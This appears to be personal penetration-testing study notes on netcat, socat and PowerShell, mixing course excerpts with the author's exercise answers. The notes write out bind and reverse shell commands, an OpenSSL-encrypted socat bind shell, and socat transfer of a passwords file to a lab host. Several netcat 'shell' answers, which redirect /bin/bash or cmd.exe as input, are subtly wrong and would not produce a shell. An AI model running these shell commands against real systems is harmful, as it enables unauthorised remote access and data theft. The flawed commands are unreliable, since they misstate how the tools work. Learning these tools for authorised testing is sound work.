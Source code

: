 
# Tools

## netcat

`nc -nv 192.168.133.128 80`

```
~/codeplay/oscp  master ⇡1 !1  nc -nv 192.168.133.128 80                                                                                                                      ✔  7s   
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Connected to 192.168.133.128:80.
ls
HTTP/1.1 400 Bad Request
Date: Wed, 09 Mar 2022 17:05:08 GMT
Server: Apache/2.4.52 (Debian)
Content-Length: 308
Connection: close
Content-Type: text/html; charset=iso-8859-1

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>400 Bad Request</title>
</head><body>
<h1>Bad Request</h1>
<p>Your browser sent a request that this server could not understand.<br />
</p>
<hr>
<address>Apache/2.4.52 (Debian) Server at hlkali.vuln.land Port 80</address>
</body></html>
```

`nc -nlvp 4444`


wget.exe can be pushed through netcat
/usr/share/windows-resources/binaries/wget.exe


For example, consider the cmd.exe executable. By redirecting stdin, stdout, and stderr to the
network, we can bind cmd.exe to a local port. Anyone connecting to this port will be presented with
a command prompt on the target computer.

Bind Shells have the listener running on the target and the attacker connects to the listener in order to gain remote access to the target system. In the reverse shell, the attacker has the listener running on his/her machine and the target connects to the attacker with a shell.

### 4.1.4.3 Exercises
(Reporting is not required for these exercises)
1. Implement a simple chat between your Kali machine and Windows system.
   no windows machine but it would be through nc
![](../chapter3/nc_binary.png)

2. Use Netcat to create a:
a. Reverse shell from Kali to Windows.
`nc -nv 10.10.10.10 8080 < /bin/bash`

b. Reverse shell from Windows to Kali.
`nc -nv 10.10.10.10 8080 < cmd.exe`


c. Bind shell on Kali. Use your Windows system to connect to it.

`nc -nlvp 4444 < /bin/bash`


d. Bind shell on Windows. Use your Kali machine to connect to it.

`nc -nlvp 4444 < cmd.exe`


3. Transfer a file from your Kali machine to Windows and vice versa.

![](../chapter3/nc_transfer.png)

4. Conduct the exercises again with the firewall enabled on your Windows system. Adapt the
exercises as necessary to work around the firewall protection and understand what portions
of the exercise can no longer be completed successfully

okay if firewall blocks both incoming and outcoming that will be a problem.

![](../chapter3/nc_shell.png)

# socat

similar to netcat but with additional features.

using socat to transfer files
`sudo socat TCP4-LISTEN:443,fork file:secret_passwords.txt`

`socat TCP4:10.11.0.4:443 file:received_secret_passwords.txt,create`


using socat to transfer shells

```
socat TCP4:localhost:443 EXEC:/bin/bash

```

```
socat -d -d TCP4-LISTEN:443 STDOUT
```

Encrypting traffic through bind shell

To continue with the example of Alice and Bob, we will use the openssl application to create a selfsigned certificate using the following options:
• req: initiate a new certificate signing request
• -newkey: generate a new private key
• rsa:2048: use RSA encryption with a 2,048-bit key length.
• -nodes: store the private key without passphrase protection
• -keyout: save the key to a file
• -x509: output a self-signed certificate instead of a certificate request
• -days: set validity period in days
• -out: save the certificate to a file
Once we generate the key, we will cat the certificate and its private key into a file, which we will
eventually use to encrypt our bind shell.

```
openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 36
2 -out bind_shell.crt
```

commands 

```
sudo socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin
/bash
```

```
socat - OPENSSL:10.11.0.4:443,verify=0
```

### 4.2.4.1 Exerc1ises
1. Use socat to transfer powercat.ps1 from your Kali machine to your Windows system. Keep
the file on your system for use in the next section.

![](socat_file_transfer.png)

2. Use socat to create an encrypted reverse shell from your Windows system to your Kali
machine.

![](reverse_shell.png)

3. Create an encrypted bind shell on your Windows system. Try to connect to it from Kali
without encryption. Does it still work?

cant do it currently.

4. Make an unencrypted socat bind shell on your Windows system. Connect to the shell using
Netcat. Does it work?
Note: If cmd.exe is not executing, research what other parameters you may need to pass to the
EXEC option based on the error you receive.

![](unencrypted_with_socat_and_netcat.png)

## Powershell and Powercat

Windows PowerShell88 is a task-based command line shell and scripting language. It is designed
specifically for system administrators and power-users to rapidly automate the administration of
multiple operating systems (Linux, macOS, Unix, and Windows) and the processes related to the
applications that run on them.
Needless to say, PowerShell is a powerful tool for penetration testing and can be installed on (or is
installed by default on) various versions of Windows. It is installed by default on modern Windows
platforms beginning with Windows Server 2008 R2 and Windows 7. Windows PowerShell 5.0 runs
on the following versions of Windows:

` Set-ExecutionPolicy Unrestricted`

### Powershell file transfer

